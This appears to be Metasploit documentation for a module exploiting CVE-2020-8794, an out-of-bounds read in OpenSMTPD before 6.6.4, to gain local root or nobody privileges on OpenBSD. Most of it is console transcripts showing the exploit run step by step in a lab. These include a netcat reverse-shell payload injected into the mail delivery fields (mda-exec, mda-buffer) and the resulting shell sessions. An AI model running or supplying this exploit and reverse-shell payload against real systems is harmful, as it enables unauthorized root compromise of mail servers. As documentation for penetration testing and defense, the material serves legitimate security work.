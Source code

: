 ## Vulnerable Application

### Description

This module exploits an out-of-bounds read of an attacker-controlled
string in OpenSMTPD's MTA implementation to execute a command as the
root or nobody user, depending on the kind of grammar OpenSMTPD uses.

### Setup

1. Download [OpenBSD 6.6](https://cdn.openbsd.org/pub/OpenBSD/6.6/amd64/install66.iso)
2. Install the system

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This targets OpenSMTPD versions < 6.6.4 by automatically selecting the
appropriate grammar.

## Options

### SESSION

Set this to a valid session ID on an OpenBSD target.

## Scenarios

### OpenSMTPD 6.6.0 on OpenBSD 6.6

```
msf > use exploit/unix/local/opensmtpd_oob_read_lpe
msf exploit(unix/local/opensmtpd_oob_read_lpe) > options

Module options (exploit/unix/local/opensmtpd_oob_read_lpe):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  25               yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   OpenSMTPD < 6.6.4 (automatic grammar selection)


msf exploit(unix/local/opensmtpd_oob_read_lpe) > set lhost 172.16.249.1
lhost => 172.16.249.1
msf exploit(unix/local/opensmtpd_oob_read_lpe) > set session 1
session => 1
msf exploit(unix/local/opensmtpd_oob_read_lpe) > run

[+] mkfifo /tmp/gkhbba; nc 172.16.249.1 4444 0</tmp/gkhbba | /bin/sh >/tmp/gkhbba 2>&1; rm /tmp/gkhbba
[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 172.16.249.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] OpenSMTPD 6.6.0 is using new grammar
[+] The target appears to be vulnerable. OpenSMTPD 6.6.0 appears vulnerable to CVE-2020-8794.
[*] Started service listener on 0.0.0.0:25
[*] Executing local sendmail(8) command: /usr/sbin/sendmail 'brvaysxuzssmnjkysoh@[172.16.249.1]' < /dev/null && echo true
[*] Client 172.16.249.137:37747 connected
[*] Exploiting new OpenSMTPD grammar for a root shell
[*] Faking SMTP server and sending exploit
[*] Sending: 220
[*] Expecting: /EHLO /
[+] Received: EHLO
[*] Sending: 250
[*] Expecting: /MAIL FROM:<[^>]/
[+] Received: foo.localdomain
MAIL FROM:<w
[*] Sending: 553-
553

dispatcher: local_mail
type: mda
mda-user: root
mda-exec: mkfifo /tmp/rettgqm; nc 172.16.249.1 4444 0</tmp/rettgqm | /bin/sh >/tmp/rettgqm 2>&1; rm /tmp/rettgqm; exit 0

[*] Disconnecting client 172.16.249.137:37747
[*] Command shell session 3 opened (172.16.249.1:4444 -> 172.16.249.137:3005) at 2020-03-03 18:40:54 -0600
[*] Server stopped.

id
uid=0(root) gid=0(wheel) groups=0(wheel)
uname -a
OpenBSD foo.localdomain 6.6 GENERIC#353 amd64
^Z
Background session 3? [y/N]  y
```

### OpenSMTPD 6.0.4 on OpenBSD 6.3

```
msf exploit(unix/local/opensmtpd_oob_read_lpe) > set session 2
session => 2
msf exploit(unix/local/opensmtpd_oob_read_lpe) > run

[+] mkfifo /tmp/hkioy; nc 172.16.249.1 4444 0</tmp/hkioy | /bin/sh >/tmp/hkioy 2>&1; rm /tmp/hkioy
[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 172.16.249.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] OpenSMTPD 6.0.4 is using old grammar
[+] The target appears to be vulnerable. OpenSMTPD 6.0.4 appears vulnerable to CVE-2020-8794.
[*] Started service listener on 0.0.0.0:25
[*] Executing local sendmail(8) command: /usr/sbin/sendmail 'nozahdogyxewkv@[172.16.249.1]' < /dev/null && echo true
[*] Client 172.16.249.138:10203 connected
[*] Exploiting old OpenSMTPD grammar for a nobody shell
[*] Faking SMTP server and sending exploit
[*] Sending: 220
[*] Expecting: /EHLO /
[+] Received: EHLO
[*] Sending: 250
[*] Expecting: /MAIL FROM:<[^>]/
[+] Received: foo.localdomain
MAIL FROM:<w
[*] Sending: 553-
553

type: mda
mda-method: mda
mda-usertable: <getpwnam>
mda-user: nobody
mda-buffer: mkfifo /tmp/jszy; nc 172.16.249.1 4444 0</tmp/jszy | /bin/sh >/tmp/jszy 2>&1; rm /tmp/jszy; exit 0

[*] Disconnecting client 172.16.249.138:10203
[*] Command shell session 4 opened (172.16.249.1:4444 -> 172.16.249.138:40377) at 2020-03-03 18:41:06 -0600
[*] Server stopped.

id
uid=32767(nobody) gid=32767(nobody) groups=32767(nobody)
uname -a
OpenBSD foo.localdomain 6.3 GENERIC#100 amd64
```
